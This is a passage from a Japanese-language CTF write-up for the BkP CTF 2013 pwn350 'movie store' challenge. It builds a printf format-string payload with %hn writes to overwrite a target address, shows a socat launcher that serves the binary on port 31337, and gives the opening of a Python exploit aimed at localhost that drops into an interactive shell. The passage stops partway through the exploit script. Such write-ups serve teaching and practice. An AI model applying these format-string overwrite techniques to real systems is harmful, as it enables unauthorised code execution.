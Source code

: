 ``` py
"%2052x%YY$hn%35315x%XX$hn\x54\xf1\x04\x08\x56\xf1\x04\x08" # XX: 0x804f156の位置(十進数2桁), YY; 0x804f154の位置(十進数2桁)
```
このとき, アドレスは4\[byte\]境界に配置する必要があるのでアドレスの前に3\[byte\]のパディングを配置する必要がある. ここでは"padding"に因んで'P'とする. 以上を踏まえ, 以下の文字列を生成することとする. 
``` py
"%2052x%13$hn%35315x%12$hnPPP\x54\xf1\x04\x08\x56\xf1\x04\x08"
# "%2052x" => 0x0804
# "%13$hn" => printf()の第14引数を指定(0x804f156がある)
# "%35315x" => 0x91f7-0x804
# "%12$hn" => printf()の第13引数を指定(0x804f154がある)
# "PPP" => パディング文字列
# "\x54\xf1\x04\x08" => アドレス0x804f154の文字列
# "\x56\xf1\x04\x08" => アドレス0x804f156の文字列
```
　次にこれを商品番号に変換する処理が必要となるが, これについては後述のソースコードに載せてあるので割愛する.   

#### Exploiting!
　さて, 最後にexploitと実行結果を示して終わりにしよう. admin.nfoにはダミーのFLAGとして"FROG_KEROKERO"という文字列を書き込んでおいた. 問題文の通りポート31337で待つような構造にしたいので, 適当なランチャを作って実行した. ランチャのコードは以下に示す. 
``` sh
#!/bin/sh

socat TCP-LISTEN:31337,reuseaddr,fork EXEC:./movies&
```

exploitは以下に示す. "# ------(ry"と書いてある部分より上のコードは"おまじない"である. 
``` py
#!/usr/bin/env python2
# BkP CTF 2013 pwn350 movie store

import binascii
import operator
import re
import socket
import struct
import subprocess
import sys
import telnetlib
import time


def read_until(f, delim='\n'):
    data = ""
    while not data.endswith(delim):
        data += f.read(1)
    return data

def connect(rhp=("localhost", 31337)):
    s = socket.create_connection(rhp)
    f = s.makefile('rw', bufsize=0)
    return s, f

def interact(s):
    t = telnetlib.Telnet()
    t.sock = s

    print "[+] 4ll y0U n33D 15 5h3ll!!"
    t.interact()

def p(x, t="<I"):
    return struct.pack(t, x)

def u(x, t="<I"):
```